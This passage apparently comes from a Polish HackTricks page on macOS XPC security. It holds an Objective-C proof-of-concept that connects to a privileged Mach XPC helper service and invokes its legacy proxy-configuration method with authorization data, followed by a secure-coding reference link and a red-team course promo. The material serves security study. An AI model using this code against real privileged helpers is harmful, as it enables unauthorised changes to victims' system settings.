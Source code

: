 ```objectivec
NSXPCConnection *xpcConnection = [[NSXPCConnection alloc] initWithMachServiceName:serviceName options:0x1000];
NSXPCInterface *xpcInterface = [NSXPCInterface interfaceWithProtocol:@protocol(XPCHelperProtocol)];
[xpcConnection setRemoteObjectInterface:xpcInterface];
[xpcConnection resume];

// Handle errors for the XPC connection
id remoteProxy = [xpcConnection remoteObjectProxyWithErrorHandler:^(NSError *error) {
NSLog(@"[-] Connection error");
NSLog(@"[-] Error: %@", error);
}];

// Log the remote proxy and connection objects
NSLog(@"Remote Proxy: %@", remoteProxy);
NSLog(@"XPC Connection: %@", xpcConnection);

// Use the legacy method to configure the proxy
[remoteProxy legacyConfigureProxyWithAuthorization:authData enabled:isProxyEnabled host:proxyAddress port:proxyPort reply:^(NSError *error, BOOL success) {
NSLog(@"Response: %@", error);
}];

// Allow some time for the operation to complete
[NSThread sleepForTimeInterval:10.0f];

NSLog(@"Finished!");
}
```
## Odnośniki

* [https://theevilbit.github.io/posts/secure\_coding\_xpc\_part1/](https://theevilbit.github.io/posts/secure\_coding\_xpc\_part1/)

<details><summary><strong>Zacznij od zera i zostań mistrzem hakowania AWS dzięki</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
